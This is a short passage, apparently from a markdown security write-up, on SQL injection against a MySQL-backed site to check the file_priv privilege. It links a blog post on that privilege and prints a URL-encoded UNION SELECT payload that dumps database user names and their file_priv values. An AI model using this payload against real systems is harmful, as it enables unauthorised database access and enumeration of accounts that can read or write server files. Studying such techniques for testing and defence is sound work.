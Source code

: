 ![](./IMG/49.png)

> The other research in here
- [mysql file_priv mysql file_priv权限)](https://blog.51cto.com/u_16099355/7165782)

![](./IMG/51.png)
![](./IMG/52.png)

> If this value is 'Y', I think it's able to read or write a file to server .
> I confirm the column by this payload 

```
100%20UNION%20SELECT%201,group_concat(User,0x7c,file_priv),3,4,5,6,7%20From%20user;--%20-
```
